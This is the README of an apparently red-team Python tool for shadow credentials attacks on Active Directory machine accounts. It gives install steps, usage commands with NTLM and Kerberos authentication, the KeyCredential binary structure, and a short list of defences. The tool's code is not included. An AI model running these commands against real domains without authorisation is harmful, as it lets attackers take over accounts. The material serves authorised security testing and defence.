 # Shadow Credentials Attack Tool

A Python implementation for performing shadow credentials attacks against Active Directory machine accounts.

## Features

- ✅ Implements Microsoft's exact binary structure for KeyCredentials
- ✅ Supports both NTLM and Kerberos authentication
- ✅ Generates compliant certificates with Smart Card Logon EKU
- ✅ Preserves existing credentials when adding new ones
- ✅ Enforces LDAPS with certificate validation
- ✅ Secure memory cleanup of sensitive data

## Installation

```bash
git clone https://github.com/your-repo/shadow-creds.git
cd shadow-creds
pip install -r requirements.txt
```

## Usage

### Basic Authentication
```bash
python3 shadow_creds.py -d dc01.corp.local -u username -p password -t TARGET$
```

### Kerberos Authentication
```bash
export KRB5CCNAME=/path/to/ticket.ccache
python3 shadow_creds.py -d dc01.corp.local -k -t TARGET$
```

### Remove Credentials
```bash
python3 shadow_creds.py -d dc01.corp.local -k -t TARGET$ --remove
```

## Command Line Arguments

| Argument          | Description                                      |
|-------------------|--------------------------------------------------|
| `-d`, `--domain`   | Domain controller hostname (required)            |
| `-u`, `--username` | Username for NTLM authentication                 |
| `-p`, `--password` | Password for NTLM authentication                 |
| `-k`, `--kerberos` | Use Kerberos authentication from ccache          |
| `-t`, `--target`   | Target machine name (with $ suffix)              |
| `-o`, `--output`   | Base filename for key material output            |
| `-r`, `--remove`   | Remove shadow credentials                        |
| `-v`, `--verbose`  | Enable verbose output                            |

## Technical Implementation

The tool implements the exact binary structure that Active Directory expects for KeyCredentials:

```text
Version        : 4 bytes
Flags          : 4 bytes
KeyId          : 16 bytes (GUID)
CreationTime   : 8 bytes (FILETIME)
KeyUsage       : 4 bytes
KeyProvider    : 4 bytes
DeviceId       : 16 bytes (GUID)
KeyMaterialLen : 4 bytes
KeyMaterial    : Variable (DER certificate)
CustomDataLen  : 4 bytes
CustomData     : Variable
```

## Defense Considerations

- 🔍 Monitor for unexpected modifications to `msDS-KeyCredentialLink`
- 🔒 Restrict write permissions on machine accounts
- ⚠️ Enable "PKINIT Freshness" protection (Windows Server 2019+)
- 📊 Review certificate authentication events

## References

- [Microsoft KeyCredential Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a90263c5-75c6-4d90-8f51-d3e8f6b69861)
- [Shadow Credentials Attack Explained](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

## Legal Disclaimer

This tool is provided for **authorized security testing** and **educational purposes** only. Unauthorized use against systems without explicit permission is illegal.

